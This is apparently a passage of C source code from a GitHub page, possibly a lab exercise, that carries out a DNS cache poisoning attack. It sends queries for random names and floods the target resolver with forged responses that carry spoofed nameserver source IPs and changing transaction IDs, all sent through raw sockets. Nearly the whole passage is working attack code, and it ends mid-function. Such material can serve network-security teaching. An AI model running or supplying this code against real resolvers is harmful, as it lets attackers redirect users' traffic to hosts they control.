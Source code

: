 ```c
        // Generate a random name of length 5.
        for (int i = 0; i < NAME_LEN; i++) { name[i] = alpha[rand() % 26]; }

        // Send DNS request to the target DNS server.
        request_cnt++;
        send_dns_request(dns_request, dns_request_size, name);

        // Send spoofed responses to the target DNS server.
        for (int i = 0; i < SPOOF_TIMES; i++, id++, response_cnt += 2) {
            send_dns_response(dns_response, dns_response_size, NS1, name, id);
            send_dns_response(dns_response, dns_response_size, NS2, name, id);
        }

        // Show running information.
        printf("\r%12" PRIu64 "      %13" PRIu64 "      %9lds      %9s",
               request_cnt, response_cnt, (clock() - start) / CLOCKS_PER_SEC, name);
        fflush(stdout);
    }

    return 0;
}

void send_dns_request(uint8_t* request, int size, char* name) {
    // Modify the name in queries.
    memcpy(request + OFFSET_REQUEST_QDSEC_QNAME, name, NAME_LEN);

    // Send the DNS request.
    send_raw_packet(request, size);
}

void send_dns_response(uint8_t* response, int size, char* src_ip, char* name, uint16_t id) {
    // Modify the src IP.
    unsigned long ip = inet_addr(src_ip);
    memcpy(response + OFFSET_RESPONSE_IP_SRC, (void*)&ip, 4);

    // Modify the transaction ID.
    uint16_t id_net = htons(id);
    memcpy(response + OFFSET_RESPONSE_DNS_ID, (void*)&id_net, 2);

    // Modify the name in queries.
    memcpy(response + OFFSET_RESPONSE_QDSEC_QNAME, name, NAME_LEN);

    // Modify the name in answers.
    memcpy(response + OFFSET_RESPONSE_ANSSEC_QNAME, name, NAME_LEN);

    // Send the DNS response.
    send_raw_packet(response, size);
}

void send_raw_packet(uint8_t* buffer, int size) {
    struct sockaddr_in dest_info;
    int enable = 1;

    // Create a raw network socket, and set its options.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (sock == -1) {
        perror("SOCKET INIT FAIL!\n");
        return;
    }
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &enable, sizeof(enable));

    // Calculate the checksum of UDP.
    struct ipheader* ip = (struct ipheader*)buffer;
```